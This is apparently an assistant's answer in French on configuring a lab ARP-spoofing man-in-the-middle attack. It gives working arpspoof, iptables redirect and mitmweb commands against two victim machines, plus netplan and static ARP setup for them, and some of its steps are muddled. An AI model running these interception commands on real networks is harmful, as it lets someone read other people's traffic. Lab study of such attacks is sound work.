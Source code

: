 Le problème est lié à la façon dont les requêtes HTTP sont redirigées vers `mitmproxy` et comment `mitmproxy` interprète ces requêtes. Les erreurs `Invalid HTTP request form` indiquent que les requêtes redirigées ne sont pas dans le format attendu par `mitmproxy`.

Pour résoudre ce problème, nous devons nous assurer que `mitmproxy` est configuré correctement pour intercepter le trafic HTTP. Voici les étapes mises à jour pour assurer une configuration correcte :

### Commandes à Exécuter sur la Machine Attaquant (Attacker)

1. **Activer le transfert IP** :
   ```sh
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
   ```

2. **Empoisonner les tables ARP** :
   - Empoisonner la table ARP de Victim1 :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
     ```
   - Empoisonner la table ARP de Victim2 (ouvrir un autre terminal pour cette commande) :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
     ```

3. **Rediriger le trafic HTTP vers le port 8080** :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-ports 8080
   ```

4. **Lancer `mitmweb` sur le port 8080** :
   ```sh
   sudo mitmweb -p 8080
   ```

### Configuration des Machines Victimes (Victim1 et Victim2)

Pour que le trafic des machines victimes soit redirigé via l'attaquant, il est nécessaire de configurer des routes et, éventuellement, des entrées ARP statiques.

1. **Configurer des adresses IP statiques et des routes** :
   - **Victim1** :
     ```sh
     sudo nano /etc/netplan/00-installer-config.yaml
     ```
     Ajoutez ou modifiez le fichier avec :
     ```yaml
     network:
       version: 2
       ethernets:
         enp0s3:
           dhcp4: true
         enp0s8:
           dhcp4: no
           addresses:
             - 10.0.2.20/24
           nameservers:
             addresses:
               - 8.8.8.8
           routes:
             - to: default
               via: 10.0.2.10
     ```
     Appliquez les changements :
     ```sh
     sudo netplan apply
     ```

   - **Victim2** :
     ```sh
     sudo nano /etc/netplan/00-installer-config.yaml
     ```
     Ajoutez ou modifiez le fichier avec :
     ```yaml
     network:
       version: 2
       ethernets:
         enp0s3:
           dhcp4: true
         enp0s8:
           dhcp4: no
           addresses:
             - 10.0.2.30/24
           nameservers:
             addresses:
               - 8.8.8.8
           routes:
             - to: default
               via: 10.0.2.10
     ```
     Appliquez les changements :
     ```sh
     sudo netplan apply
     ```

2. **Configurer des entrées ARP statiques (optionnel)** :
   - **Victim1** :
     ```sh
     sudo ip neigh add 10.0.2.10 lladdr <MAC de Attacker> dev enp0s8
     sudo ip neigh add 10.0.2.30 lladdr <MAC de Victim2> dev enp0s8
     ```
   - **Victim2** :
     ```sh
     sudo ip neigh add 10.0.2.10 lladdr <MAC de Attacker> dev enp0s8
     sudo ip neigh add 10.0.2.20 lladdr <MAC de Victim1> dev enp0s8
     ```

### Vérification de la Connectivité

1. **Vérifiez la connectivité entre les machines** :
   - Depuis **Victim1** :
     ```sh
     ping 10.0.2.10
     ping 10.0.2.30
     ```
   - Depuis **Victim2** :
     ```sh
     ping 10.0.2.10
     ping 10.0.2.20
     ```
   - Depuis **Attacker** :
     ```sh
     ping 10.0.2.20
     ping 10.0.2.30
     ```

### Test de l'Attaque MITM

1. **Empoisonner les tables ARP** depuis l'attaquant :
   ```sh
   sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
   sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
   ```

2. **Rediriger le trafic HTTP vers `mitmproxy`** sur le port 8080 :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-ports 8080
   ```

3. **Lancer `mitmweb`** sur le port 8080 :
   ```sh
   sudo mitmweb -p 8080
   ```

4. **Accéder à l'interface web de `mitmweb`** :
   - Depuis **Victim1** et **Victim2**, ouvrez un navigateur et accédez à `http://10.0.2.10:8080` (en remplaçant `10.0.2.10` par l'adresse IP de l'interface interne de l'attaquant).

En suivant ces étapes, l'interface web de `mitmweb` sera accessible via le port 8080 et les machines victimes redirigeront leur trafic HTTP vers l'attaquant, permettant ainsi de visualiser le trafic intercepté.
